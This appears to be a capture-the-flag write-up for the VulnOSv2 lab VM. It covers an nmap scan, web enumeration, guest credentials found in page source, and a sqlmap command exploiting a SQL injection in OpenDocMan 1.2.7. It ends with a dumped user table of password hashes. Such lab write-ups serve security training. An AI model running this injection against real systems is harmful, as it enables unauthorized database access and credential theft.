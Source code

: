 ###### Description: Writeup of VulnOSv2 VM in Vulnhub by the author c4b3rw0lf

Let's begin by scanning the host: 

```
# nmap -A -T4 -sV -PN -p- 192.168.0.15

Nmap scan report for 192.168.0.15
Host is up (0.00022s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     (protocol 2.0)
| ssh-hostkey: 1024 f5:4d:c8:e7:8b:c1:b2:11:95:24:fd:0e:4c:3c:3b:3b (DSA)
| 2048 ff:19:33:7a:c1:ee:b5:d0:dc:66:51:da:f0:6e:fc:48 (RSA)
|_256 ae:d7:6f:cc:ed:4a:82:8b:e8:66:a5:11:7a:11:5f:86 (ECDSA)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: VulnOSv2
6667/tcp open  irc     ngircd
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at http://www.insecure.org/cgi-bin/servicefp-submit.cgi :
SF-Port22-TCP:V=6.40%I=7%D=5/20%Time=573F2008%P=x86_64-pc-linux-gnu%r(NULL
SF:,2B,"SSH-2\.0-OpenSSH_6\.6\.1p1\x20Ubuntu-2ubuntu2\.6\r\n");
MAC Address: 08:00:27:57:4F:AA (Cadmus Computer Systems)
No exact OS matches for host (If you know what OS is running on it, see http://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=6.40%E=4%D=5/20%OT=22%CT=1%CU=39556%PV=Y%DS=1%DC=D%G=Y%M=080027%T
OS:M=573F2056%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=I%TS=8
OS:)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)OPS(O1=M5B4ST11NW7%O2=M5B4
OS:ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1
OS:=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O
OS:=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N
OS:)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=
OS:S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF
OS:=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=
OS:G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: Host: irc.example.net

TRACEROUTE
HOP RTT     ADDRESS
1   0.22 ms 192.168.0.15

OS and Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1041.99 seconds
```

So we discovered it has the following services running:
- SSH (22/TCP)
- HTTP (80/TCP)
- IRCd (6667/TCP)

Firing up the browser we encounter a black screen pointing us to http://192.168.0.15/jabc/. 

Following this link we reach another page called "JBC Just Another Bioware Company". Not many interesting stuff here so I decided to have a look at the website source code. 

Poking around some pages I've found /jabc/modules/system/ with apache index enabled, with many many files:

```
Index of /jabc/modules/system
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[ ]	html.tpl.php	2016-04-16 15:17 	2.7K	 
[ ]	image.gd.inc	2016-04-16 15:17 	12K	 
[ ]	language.api.php	2016-04-16 15:17 	6.4K	 
[ ]	maintenance-page.tpl.php	2016-04-16 15:17 	2.9K	 
[ ]	page.tpl.php	2016-04-16 15:17 	6.8K	 
[ ]	region.tpl.php	2016-04-16 15:17 	1.3K	 
[TXT]	system.admin-rtl.css	2016-04-16 15:17 	1.4K	 
[TXT]	system.admin.css	2016-04-16 15:17 	5.0K	 
[ ]	system.admin.inc	2016-04-16 15:17 	113K	 
[ ]	system.api.php	2016-04-16 15:17 	193K	 
[ ]	system.archiver.inc	2016-04-16 15:17 	3.0K	 
[TXT]	system.base-rtl.css	2016-04-16 15:17 	869 	 
[TXT]	system.base.css	2016-04-16 15:17 	5.2K	 
[ ]	system.cron.js	2016-04-16 15:17 	489 	 
[ ]	system.info	2016-04-16 15:17 	462 	 
[ ]	system.install	2016-04-16 15:17 	112K	 
[ ]	system.js	2016-04-16 15:17 	4.6K	 
[ ]	system.mail.inc	2016-04-16 15:17 	4.5K	 
[TXT]	system.maintenance.css	2016-04-16 15:17 	811 	 
[TXT]	system.menus-rtl.css	2016-04-16 15:17 	551 	 
[TXT]	system.menus.css	2016-04-16 15:17 	2.0K	 
[TXT]	system.messages-rtl.css	2016-04-16 15:17 	176 	 
[TXT]	system.messages.css	2016-04-16 15:17 	961 	 
[ ]	system.module	2016-04-16 15:17 	137K	 
[ ]	system.queue.inc	2016-04-16 15:17 	12K	 
[ ]	system.tar.inc	2016-04-16 15:17 	62K	 
[ ]	system.test	2016-04-16 15:17 	108K	 
[TXT]	system.theme-rtl.css	2016-04-16 15:17 	811 	 
[TXT]	system.theme.css	2016-04-16 15:17 	3.6K	 
[ ]	system.tokens.inc	2016-04-16 15:17 	7.9K	 
[ ]	system.updater.inc	2016-04-16 15:17 	4.6K	 
[ ]	theme.api.php	2016-04-16 15:17 	8.8K

```
All TXT files are basically CSS files, not too important information there, so I continued browsing through JABS products and found the page: /jabc/?q=node/7.

Inspecting the source I found the following lines: 
```
<p><span style="color:#000000">For security reasons, this section is hidden.</span></p>
<p><span style="color:#000000">For a detailed view and documentation of our products, please visit our documentation platform at /jabcd0cs/ on the server. Just login with guest/guest</span></p>
<p><span style="color:#000000">Thank you.</span></p>
```

Now we've got a new link called /jbacd0cs/ and also some guest/guest credentials. Accessing the URL in question it gets us to a page called "opendocman".

Using the guest/guest credentials it was possible to log into the application.

We are presented with something like a database administration but with guest privileges.

First I've tried to upload a simple test.php file with a print inside, but I've got the error message: 

```
MIMETYPE: text/x-php Failed
```

So we can assume that the system is blocking PHP files. So I started looking for exploits for "OpenDocMan v1.2.7" version in use. I've found in www.exploit-db.com the following exploit: 

https://www.exploit-db.com/exploits/32075/

The exploit is related to a SQL Injection, so let's fire up sqlmap:

```
sqlmap -u 'http://192.168.0.100/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user'
-p add_value -D jabcd0cs --dump
```

After some sqlmapping we managed to reach a password table called "odm_user" with some users and passwords: 

```
Database: jabcd0cs
Table: odm_user
[2 entries]
+----+-------------+--------------------+----------+------------------------------------------+-----------+------------+------------+---------------+
| id | phone       | Email              | username | password                                 | last_name | first_name | department | pw_reset_code |
+----+-------------+--------------------+----------+------------------------------------------+-----------+------------+------------+---------------+
| 1  | 5555551212  | webmin@example.com | webmin   | b78aae356709f8c31118ea613980954b         | min       | web        | 2          | <blank>       |
| 2  | 555 5555555 | guest@example.com  | guest    | 084e0343a0486ff05530df6c705c8bb4 (guest) | guest     | guest      | 2          | NULL          |
+----+-------------+--------------------+----------+------------------------------------------+-----------+------------+------------+---------------+
```
